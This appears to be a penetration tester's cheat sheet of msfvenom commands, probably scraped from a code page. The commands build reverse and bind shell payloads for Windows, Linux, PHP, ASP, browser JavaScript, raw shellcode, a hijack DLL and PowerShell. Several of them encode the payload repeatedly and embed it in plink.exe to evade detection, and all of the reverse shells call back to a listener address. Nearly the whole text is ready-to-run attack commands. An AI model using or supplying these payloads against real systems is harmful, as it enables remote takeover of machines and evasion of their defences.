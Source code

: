 ## [+ WINDOWS ENCODED PAYLOADS ] PORT 443
====CHANGE. IP. AS. NEEDED.====

WINDOWS/SHELL/REVERSE_TCP [PORT 443]
msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe

WINDOWS/SHELL_REVERSE_TCP (NETCAT x86) [PORT 443]
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe

WINDOWS/SHELL_REVERSE_TCP (NETCAT x64) [PORT 443]
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x64 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe

WINDOWS/METERPRETER/REVRESE_TCP (x86) [PORT 443] AT 10.0.0.67:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe

WINDOWS/METERPRETER/REVRESE_TCP (x64) [PORT 443] AT 10.0.0.67:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x64 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_64.exe


---===BIND SHELL, ENCODED, ON PORT 1234===---
msfvenom -p windows/shell_bind_tcp LHOST=10.0.0.67 LPORT=1234 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o bindshell_1234_encoded_86.exe

Code for encoding:
--platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o payload_86.exe

================================================================================
[+ LINUX ]
LINUX/x86/METERPRETER/REVERSE_TCP
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=9997 -f elf >reverse.elf

NETCAT
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.67 LPORT=1234 -f elf >reverse.elf
================================================================================

[+ PHP ]
PHP/METERPRETER_REVERSE_TCP [PORT 443]
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

PHP/METERPRETER/REVERSE_TCP [PORT 443]
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

PHP/REVERSE_PHP [PORT 443]
msfvenom -p php/reverse_php LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
================================================================================

[+ ASP]
ASP-REVERSE-PAYLOAD [PORT 443]
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 -f asp > shell.asp

OR FOR NETCAT [PORT 443]
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 -f asp > shell.asp

================================================================================
[+ Client-Side, Unicode Payload - For use with Internet Explorer and IE]
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=443 -f js_le -e generic/none

#Note: To keep things the same size, if needed add NOPs at the end of the payload.
#A Unicode NOP is - %u9090

================================================================================
===SHELLCODE GENERATION:
================================================================================
--===--
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=80 EXITFUNC=thread -f python -a x86 --platform windows -b '\x00' -e x86/shikata_ga_nai
--===--
================================================================================
#DLL HiJacking - Windows - x64
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.190 LPORT=4444 -f dll -o Printconfig.dll
================================================================================


msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.47.29 LPORT=4444 -f powershell







